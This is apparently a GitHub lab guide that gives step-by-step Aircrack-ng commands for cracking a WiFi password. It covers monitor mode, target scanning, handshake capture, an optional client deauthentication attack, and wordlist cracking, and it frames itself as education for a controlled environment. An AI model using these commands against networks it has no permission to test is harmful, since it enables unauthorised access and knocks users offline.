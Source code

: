 # WiFi Cracking Lab Instructions

## Prerequisites
- WiFi card supporting monitor mode
- Aircrack-ng suite
- Wordlist file (`dates_1920_2024_wordlist.txt`)

## Steps

### 1. Environment Preparation
Stop interfering network processes:
```bash
sudo airmon-ng check kill
```

### 2. Enable Monitor Mode
Identify your wireless interface:
```bash
iwconfig
```
Start monitor mode:
```bash
sudo airmon-ng start <interface>
```
Check monitor mode:
```bash
iwconfig
```

### 3. Target Network Identification
List networks:
```bash
sudo airodump-ng <monitor_interface>
```
Note BSSID and channel of the target.

### 4. Capture Handshake
Capture handshake:
```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write hackMewifi <monitor_interface>
```

### 5. Deauthenticate Client (Optional)
Force handshake capture:
```bash
sudo aireplay-ng --deauth 5 -a <BSSID> -c <client_MAC> <monitor_interface>
```

### 6. Crack WiFi Password
Crack password:
```bash
aircrack-ng hackMewifi-01.cap -w <wordlist>
```

### 7. Cleanup
Restart network services:
```bash
sudo systemctl restart NetworkManager
```
Stop monitor mode:
```bash
sudo airmon-ng stop <monitor_interface>
```

## Conclusion
Follow these steps to crack a WiFi password using Aircrack-ng. This guide is for educational purposes in a controlled environment.

